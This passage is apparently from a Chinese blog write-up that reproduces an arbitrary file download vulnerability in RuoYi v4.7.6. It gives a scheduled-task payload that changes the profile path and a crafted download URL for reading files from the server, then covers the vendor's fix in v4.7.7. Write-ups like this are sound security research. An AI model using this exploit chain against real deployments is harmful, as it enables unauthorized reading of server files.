 - 按照前 9 步的分析，我目前测试机是 `Windows` 机器，所以编写 `payload` 为 `ruoYiConfig.setProfile("D:\\")`，尝试将文件默认路径设置为 `D` 盘根目录
	![在这里插入图片描述](https://img-blog.csdnimg.cn/015be50991394b4c8078dd2f1c4546a1.png)
- 点击执行，手动触发定时任务
	![在这里插入图片描述](https://img-blog.csdnimg.cn/f5697e2d1b454020b38b74df44c7b7b3.png)
- 构造下载链接，访问 D 盘中的资源

	 ```java
	String localPath = RuoYiConfig.getProfile();	// 刚才被篡改的地址。  现在应该是   D://
     String downloadPath = localPath + StringUtils.substringAfter(resource, Constants.RESOURCE_PREFIX);
	 ```
	
	`Constans.RESOURCE_PREFIX` 的值如下：
	```java
	/**
     * 资源映射路径 前缀
     */
    public static final String RESOURCE_PREFIX = "/profile";
	```

	`StringUtils.substringAfter` 方法的源码如下：
	```java
	public static String substringAfter(String str, String separator) {
	        if (isEmpty(str)) {
	            return str;
	        } else if (separator == null) {
	            return "";
	        } else {
	        	// 从传入的路径中获取到分隔符 /profile 的位置
	            int pos = str.indexOf(separator);	
	            // 截取 /profile 所在位置的后面的内容。例如  /profile/1.txt  被截取之后就是 /1.txt
	            return pos == -1 ? "" : str.substring(pos + separator.length());	
	        }
	    }
	```
	所以，如果想下载 `D://123.txt`，那么最终构造的 `url` 就应该是 

	`http://localhost:8081/common/download/resource?resource=/profile/123.txt`

- 下载成功
	![在这里插入图片描述](https://img-blog.csdnimg.cn/fc6e16e2e30640c0938fc15ab499be73.png)
	
# 漏洞修复
> 截止发文日（2023.05.25），Ruoyi 官方已经于 2023.4.14 日针对 v4.7.6 版本的任意文件下载漏洞进行了修复。

![在这里插入图片描述](https://img-blog.csdnimg.cn/cd4818ccad4c4dca95392bbf7d2933c7.png)
通过Compare v4.7.7 和 v4.7.6 的代码变动情况，可以看出，官方的修复方案如下：
![在这里插入图片描述](https://img-blog.csdnimg.cn/877ee5e20d094a3db25c8e6699317111.png)
尝试在 v4.7.7 版本中复现，结果被成功拦截

![在这里插入图片描述](https://img-blog.csdnimg.cn/49208e1b0a994b0594f31c2efc603b84.png)

